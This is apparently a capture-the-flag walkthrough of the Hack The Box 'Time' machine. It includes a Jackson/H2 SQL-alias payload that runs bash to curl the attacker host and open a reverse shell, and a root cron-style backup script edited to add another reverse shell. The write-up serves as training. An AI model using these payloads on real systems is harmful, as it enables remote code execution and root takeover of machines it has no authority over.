# Hackthebox - Time

First I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.168.114
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds
```

Port 80 which is HTTP is open, so I open the website and got this.


When I click around the website, I found the validate function is giving out an error.


I started searching about the package in the error and got this article (https://blog.doyensec.com/2019/07/22/jackson-gadgets.html). 


I create an sql file called **exploit.sql** which tells the box to curl my machine on port 8888.
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('curl 10.10.14.66:8888')
```

I setup a python server, send the payload and got a hit.



I also got a curl on my machine from the box.


Now I know the exploit works, so I change the curl command to a reverse shell command.
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.66/8888 0>&1')
```

Setup a listener and got a shell.


Next, I run linpeas to enumerate the box for potential privilege escalation vectors and got an interesting binary called **timer_backup**.


Looking at its content, it looks like it is doing a backup on the web content.
```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

I can write to that file but I can't execute that as root, so I try to look if that binary get executed by a background task and it does.


Looking through the service, it connects to a service called **timer_backup.service** which is executed every 10 seconds and that service is owned by root.


So I can just edit the **timer_backup.sh** file and put a reverse shell command.
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.66/8888 0>&1'
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

Setup a listener and got a shell as root.
